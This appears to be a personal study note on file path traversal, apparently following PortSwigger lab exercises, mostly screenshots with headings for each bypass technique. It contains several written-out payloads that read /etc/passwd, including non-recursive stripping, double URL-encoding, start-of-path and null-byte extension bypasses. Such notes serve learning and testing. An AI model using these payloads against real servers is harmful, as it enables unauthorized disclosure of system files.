 # File path traversal, simple case
![[Pasted image 20230223234206.png]]
![[Pasted image 20230223234319.png]]
![[Pasted image 20230223234343.png]]

# traversal sequences blocked with absolute path bypass
![[Pasted image 20230223235519.png]]

# traversal sequences stripped non-recursively
![[Pasted image 20230223235713.png]]
`....//....//....//etc/passwd`

# traversal sequences stripped with superfluous URL-decode
double url encode
`%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34`

![[Pasted image 20230224000241.png]]

# validation of start of path

filter only checks for the begging of the file 
![[Pasted image 20230224000352.png]]
`/var/www/images/../../../../../etc/passwd `

# validation of file extension with null byte bypass
The application validates that the supplied filename ends with the expected file extension.

Bypass the append more chars at the end of the provided string (bypass of: $_GET['param']."php")

![[Pasted image 20230224000736.png]]
`../../../../../../etc/passwd%00.jpg`

---
Tags: #LFI 
Resources:
[Port Swigger](https://portswigger.net/web-security/file-path-traversal)
[PayloadOfAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal/Intruder)
[[00 File Disclosure]]
[[Cheat sheet]]
